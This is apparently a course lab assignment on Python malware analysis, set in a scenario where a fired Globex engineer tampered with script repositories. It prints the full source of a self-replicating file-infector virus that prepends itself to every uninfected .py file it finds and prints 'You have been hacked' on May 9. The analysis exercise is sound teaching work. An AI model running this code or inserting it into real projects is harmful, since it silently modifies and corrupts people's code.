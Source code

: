 # Ops Challenge: Python Malware Analysis

## Overview

Today you will analyze a malicious script written in Python and submit an interpreted version of the file with comments.

## Scenario

Last week, a Globex engineer was terminated from the organization under unpleasant circumstances. This morning, your service desk team responded to a ticket from the engineering department that their Python script repository had been tampered with, with the words "You have been hacked" written and saved into the scripts themselves. The service desk team also noted that the system clocks had been tampered with on various engineering computers an incorrectly set to May 9. After a careful review of system logs you find that the below script was executed with administrator privilege on various engineering systems.

The Globex board of directors has asked you to analyze the contents of this script and explain in plain terms what the script does.

## Feature Tasks and Requirements

Copy the below Python script to your public Github repo. Do not execute this script in your Ubuntu VM used for class. If you wish to execute this script, either backup your VM using Virtualbox Snapshot or create a separate VM for testing.

```
#!/usr/bin/python
import os
import datetime

SIGNATURE = "PY VIRUS"

def search(path):
    filestoinfect = []
    filelist = os.listdir(path)
    for fname in filelist:
        if os.path.isdir(path+"/"+fname):
            filestoinfect.extend(search(path+"/"+fname))
        elif fname[-3:] == ".py":
            infected = False
            for line in open(path+"/"+fname):
                if SIGNATURE in line:
                    infected = True
                    break
            if infected == False:
                filestoinfect.append(path+"/"+fname)
    return filestoinfect

def infect(filestoinfect):
    virus = open(os.path.abspath(__file__))
    virusstring = ""
    for i,line in enumerate(virus):
        if i&gt;=0 and i &lt;39:
            virusstring += line
    virus.close
    for fname in filestoinfect:
        f = open(fname)
        temp = f.read()
        f.close()
        f = open(fname,"w")
        f.write(virusstring + temp)
        f.close()

def bomb():
    if datetime.datetime.now().month == 5 and datetime.datetime.now().day == 9:
        print "You have been hacked"

filestoinfect = search(os.path.abspath(""))
infect(filestoinfect)
bomb()
```

Perform an analysis of the Python-based code.
- Insert comments into each line of the script explaining in your own words what the virus is doing on this line.
- Insert comments above each function explaining what the purpose of this function is and what it hopes to carry out.
- Insert comments above the final three lines explaining how the functions are called and what this script appears to do.


## Stretch Goals (Optional Objectives)

Pursue stretch goals if you are a more advanced user or have remaining lab time.

In your submission, include comments towards the bottom explaining the below:
- Identify all the core Python/coding tools used by this script, e.g. functions.
- What kind of malware is this? Define this type of malware in your own words.
- How well is this code written? Would you have done something differently to achieve the same objective?

## Submission Instructions

- When you are ready to submit your shell script for grading, copy your script to a new file in your **public** [Github](https://github.com/){:target="_blank"} repository. Name the file according to your cose code and assignment, e.g. `ops-301d1: Challenge 01`.
- Copy the URL to your Github file and paste below as your submission. Add a comment in your Canvas assignment which includes the following:
    - A question within the context of today's lab assignment
    - An observation about the lab assignment, or related 'Ah-hah!' moment
    - How long you spent working on this assignment




